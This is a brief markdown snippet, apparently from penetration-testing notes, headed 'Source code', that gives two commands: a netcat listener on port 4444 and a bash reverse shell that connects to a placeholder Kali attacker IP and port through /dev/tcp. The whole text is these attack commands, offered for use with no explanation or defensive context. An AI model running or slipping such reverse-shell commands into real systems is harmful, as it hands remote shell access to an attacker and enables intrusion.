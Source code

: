 ### Start a listener
```
nc -nvlp 4444
```

### Reverse Shell
```
bash -i >& /dev/tcp/<kali_ip>/<port> 0>&1
```
